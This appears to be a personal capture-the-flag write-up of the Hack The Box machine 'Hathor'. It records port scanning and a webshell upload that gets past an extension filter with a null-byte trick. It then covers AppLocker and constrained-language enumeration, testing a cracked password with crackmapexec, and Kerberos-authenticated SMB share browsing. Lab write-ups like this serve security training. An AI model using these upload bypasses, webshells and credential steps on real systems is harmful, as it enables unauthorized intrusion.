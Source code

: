 # Rustscan & Nmap
```bash
rustscan -a $IP 

sudo nmap -sC -sV -oA nmap -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49664,49668,49674,53876,65133,65142 $IP

xsltproc -o beauty-scan.html /opt/nmap-bootstrap-xsl/nmap-bootstrap.xsl nmap.xml

DNS:hathor.windcorp.htb
Domain: windcorp.htb0
```

* https://github.com/honze-net/nmap-bootstrap-xsl#build-an-html-file-for-sharing

# Shell as windcorp/web
### Webshell
80 -> Web title -> Google default creds -> File Transfer

Upload webshell -> bypassing by adding `%00.jpg` -> "Copy" the file inorder to rename to get the `.aspx` extenstion.

### Enum
* https://0xdf.gitlab.io/2022/11/19/htb-hathor.html#shell


### INSOMNIA Shell
Since I know that both PowerShell and unsigned binaries like `nc.exe` are going to fail connecting out, I’ll try a more full-featured webshell, like Insomnia. It has a built in reverse shell capability:

* https://github.com/A1vinSmith/pentest/blob/master/shell/insomnia_shell.aspx

# Shell as Bill
### Enum
```cmd powershell
c:\Get-bADpasswords\Accessible\CSVs>type exported_windcorp-18032022-044046.csv
type exported_windcorp-18032022-044046.csv
Activity;Password Type;Account Type;Account Name;Account SID;Account password hash;Present in password list(s)

c:\Get-bADpasswords\Accessible\CSVs>type exported_windcorp-04102021-113140.csv
type exported_windcorp-04102021-113140.csv
Activity;Password Type;Account Type;Account Name;Account SID;Account password hash;Present in password list(s)
active;weak;regular;BeatriceMill;S-1-5-21-3783586571-2109290616-3725730865-5992;9cb01504ba0247ad5c6e08f7ccae7903;'leaked-passwords-v7'

c:\Get-bADpasswords\Accessible\CSVs>whoami
whoami
windcorp\web

c:\Get-bADpasswords\Accessible\CSVs>powershell $ExecutionContext.SessionState.LanguageMode
powershell $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage			<- CLM

c:\Get-bADpasswords\Accessible\CSVs>powershell get-applockerPolicy -effective -xml
powershell get-applockerPolicy -effective -xml
<AppLockerPolicy Version="1"><RuleCollection Type="Appx" EnforcementMode="Enabled"><FilePublisherRule Id="a9e18c21-ff8f-43cf-b9fc-db40eed693ba" Name="(Default Rule) All signed packaged apps" Description="Allows members of the Everyone group to run packaged apps that are signed." UserOrGroupSid="S-1-1-0" Action="Allow"><Conditions><FilePublisherCondition PublisherName="*" ProductName="*" BinaryName="*"><BinaryVersionRange LowSection="0.0.0.0" HighSection="*" /></FilePublisherCondition></Conditions></FilePublisherRule></RuleCollection><RuleCollection Type="Dll" EnforcementMode="Enabled"><FilePublisherRule Id="5b74e91f-e7d9-4348-a21b-047d2901c659" Name="Signed by O=MICROSOFT CORPORATION, L=REDMOND, S=WASHINGTON, C=US" Description="" UserOrGroupSid="S-1-1-0" Action="Allow"><Conditions><FilePublisherCondition PublisherName="O=MICROSOFT CORPORATION, L=REDMOND, S=WASHINGTON, C=US" ProductName="*" BinaryName="*"><BinaryVersionRange LowSection="*" HighSection="*" /></FilePublisherCondition></Conditions></FilePublisherRule><FilePathRule Id="059bf360-e712-427a-8255-59d182bc4cd5" Name="%OSDRIVE%\share\scripts\7-zip64.dll" Description="" UserOrGroupSid="S-1-1-0" Action="Allow"><Conditions><FilePathCondition Path="%OSDRIVE%\share\scripts\7-zip64.dll" /></Conditions><Exceptions><FilePathCondition Path="%OSDRIVE%\share\scripts\7-zip64.dll:*" /></Exceptions></FilePathRule><FilePathRule Id="3737732c-99b7-41d4-9037-9cddfb0de0d0" Name="(Default Rule) All DLLs located in the Program Files folder" Description="Allows members of the Everyone group to load DLLs that are located in the Program Files folder." UserOrGroupSid="S-1-1-0" Action="Allow"><Conditions><FilePathCondition Path="%PROGRAMFILES%\*" /></Conditions></FilePathRule><FilePathRule Id="3a07aecc-17f3-43e5-911b-ddb7e4d7353f" Name="%OSDRIVE%\Get-bADpasswords\PSI\Psi_x64.dll" Description="" UserOrGroupSid="S-1-5-21-3783586571-2109290616-3725730865-10102" Action="Allow"><Conditions><FilePathCondition Path="%OSDRIVE%\Get-bADpasswords\PSI\Psi_x64.dll" />
```

With AppLocker enabled the files that a user can execute get restricted by the AppLocker policy. Looking at
the policy, we can see that AppLocker trusts Microsoft as a publisher. So `Sysinternals` tools can be used
to find writable paths to bypass AppLocker rules. We can use the tool `Accesschk`.

First of all, we download it on our local machine and unzip the archive. Now, we need to find a way to
transfer the executable to the remote machine. Using common Powershell commands like `Copy-Item`,
`wget` or `iwr` yielded no results, most likely due to firewall rules . So, an easy bypass to this problem is to
utilize the File Manager option from the website once again after we change the extension of the file to
`.txt`

```bash
crackmapexec smb $IP -u beatricemill -p '!!!!ilovegood17'
SMB         10.129.47.158   445    10.129.47.158    [*]  x64 (name:10.129.47.158) (domain:10.129.47.158) (signing:True) (SMBv1:False)
SMB         10.129.47.158   445    10.129.47.158    [-] 10.129.47.158\beatricemill:!!!!ilovegood17 STATUS_NOT_SUPPORTE
```

### Kerberos on Linux (Linux Lateral Movement)
Linux clients can authenticate to Active Directory servers via Kerberos as a Windows machine would.

To use the `kinit` command, which is used to acquire a Kerberos ticket-granting ticket (TGT) for the current user. To request a TGT, we just need to call kinit without parameters and enter the user's AD password.

When users attempt to use Kerberos and specify a principal or user name without specifying what administrative Kerberos realm that principal belongs to, the system appends the default realm. The default realm may also be used as the realm of a Kerberos service running on the local machine. Often, the default realm is the uppercase version of the local DNS domain.

But since I left it empty, I need to config the `/etc/krb5.conf` with the victim domain now. Let's use the infos from rust and nmap.

* https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/7/html/system-level_authentication_guide/configuring_a_kerberos_5_server
* https://docs.bmc.com/docs/decisionsupportserverautomation/85/locating-active-directory-kdcs-350325160.html
* https://book.hacktricks.xyz/network-services-pentesting/pentesting-dns#active-directory-servers

```bash
nslookup -type=srv _kerberos._tcp.windcorp.htb
Server:         10.129.47.158
Address:        10.129.47.158#53

_kerberos._tcp.windcorp.htb     service = 0 100 88 hathor.windcorp.htb.

sudo kinit beatricemill
Password for beatricemill@WINDCORP.HTB: 

sudo klist
Ticket cache: FILE:/tmp/krb5cc_0
Default principal: beatricemill@WINDCORP.HTB

Valid starting     Expires            Service principal
03/11/23 14:21:32  04/11/23 00:21:32  krbtgt/WINDCORP.HTB@WINDCORP.HTB
        renew until 04/11/23 14:21:11

sudo smbclient -L //hathor.windcorp.htb -U beatricemill@windcorp.htb -N -k
WARNING: The option -k|--kerberos is deprecated!
session setup failed: NT_STATUS_CONNECTION_RESET

sudo smbclient -L //hathor.windcorp.htb -U beatricemill@windcorp.htb -N

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        share           Disk      
        SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available

sudo klist
Ticket cache: FILE:/tmp/krb5cc_0
Default principal: beatricemill@WINDCORP.HTB

Valid starting     Expires            Service principal
03/11/23 14:21:32  04/11/23 00:21:32  krbtgt/WINDCORP.HTB@WINDCORP.HTB
        renew until 04/11/23 14:21:11
03/11/23 14:36:16  04/11/23 00:21:32  cifs/hathor.windcorp.htb@WINDCORP.HTB
        renew until 04/11/23 14:21:11
```

One thing need to be remind, TO turn it on&off the switch

```conf
# HTB box
# nameserver 10.129.47.158 	<- for using kinit to get a ticket
nameserver 10.10.16.2 		<- for running the smbclient	
```

##### Looking in to the share
```bash
sudo smbclient //hathor.windcorp.htb/share -U beatricemill@windcorp.htb -N
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Nov  3 14:43:25 2023
  ..                                DHS        0  Wed Apr 20 00:45:15 2022
  AutoIt3_x64.exe                     A  1013928  Fri Mar 16 02:17:44 2018
  Bginfo64.exe                        A  4601208  Fri Sep 20 08:15:38 2019
  scripts                             D        0  Tue Mar 22 10:22:59 2022


smb: \scripts\> dir
  .                                   D        0  Tue Mar 22 10:22:59 2022
  ..                                  D        0  Fri Nov  3 14:53:25 2023
  7-zip64.dll                         A  1076736  Tue Mar 22 02:43:58 2022
  7Zip.au3                            A    54739  Fri Oct 19 09:02:02 2012
  ZipExample.zip                      A     2333  Sun Oct  7 10:50:30 2012
  _7ZipAdd_Example.au3                A     1794  Mon Oct  8 00:15:16 2012
  _7ZipAdd_Example_using_Callback.au3      A     1855  Mon Oct  8 00:17:14 2012
  _7ZipDelete_Example.au3             A      334  Sun Oct  7 14:37:38 2012
  _7ZIPExtractEx_Example.au3          A      859  Sun Oct  7 14:38:10 2012
  _7ZIPExtractEx_Example_using_Callback.au3      A     1867  Sun Oct  7 12:04:14 2012
  _7ZIPExtract_Example.au3            A      830  Sun Oct  7 14:37:50 2012
  _7ZipFindFirst__7ZipFindNext_Example.au3      A     2027  Sun Oct  7 12:05:12 2012
  _7ZIPUpdate_Example.au3             A      372  Sun Oct  7 14:39:04 2012
  _Archive_Size.au3                   A      886  Sun Jan 23 22:51:45 2022
  _CheckExample.au3                   A      201  Sun Oct  7 12:51:30 2012
  _GetZipListExample.au3              A      144  Sun Oct  7 14:39:22 2012
  _MiscExamples.au3                   A      498  Fri Nov 28 05:04:30 2008

                10328063 blocks of size 4096. 2270930 blocks available
```

Inside the share there are two executables and one directory called scripts . Judging from the names of
the files the Bginfo64.exe is the BgInfo tool from Sysinternals and the AutoIt3_x64.exe file turns out to
be the AutoIT scripting framework.